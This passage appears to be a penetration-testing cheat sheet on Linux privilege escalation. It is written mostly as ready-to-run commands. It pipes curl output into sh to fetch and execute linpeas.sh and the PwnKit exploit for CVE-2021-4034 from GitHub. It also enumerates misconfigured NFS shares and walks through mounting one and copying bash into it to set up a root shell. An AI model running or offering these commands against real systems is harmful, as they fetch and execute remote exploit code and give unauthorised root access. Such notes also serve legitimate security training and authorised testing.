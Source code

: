```bash
sudo -l 
```

- Run Linpeas to get more insights for privilege escalation

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### PwnKit Exploit CVE-2021-4034 - Pkexec Local Privilege Escalation

- GitHub URL: https://github.com/ly4k/PwnKit
- Command for Privilege Escalation

```bash 
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### Misconfigured NFS Share

- NFS Shares default port is **2049**
- List misconfigured NFS Shares

```bash
apt install nfs-common
```

```bash
showmount -e 192.168.xxx.xxx 
```

- Using Nmap to list misconfigured NFS Shares

```bash
nmap -sV --script=nfs-showmount 192.168.xxx.xxx
```

#### Steps for exploitation

1. Create temporary folder to mount misconfigured NFS Share

```bash
mkdir /tmp/nfs
```

2. Mount the misconfigured NFS Share to newly created folder

```bash
mount -t nfs 192.168.xxx.xxx:/<share_name> /tmp/nfs
```

3. After mounting move to the mounted share

```bash
cd /tmp/nfs
```

4. Copy the bash shell into mounted directory

```bash
cp /bin/bash .
```
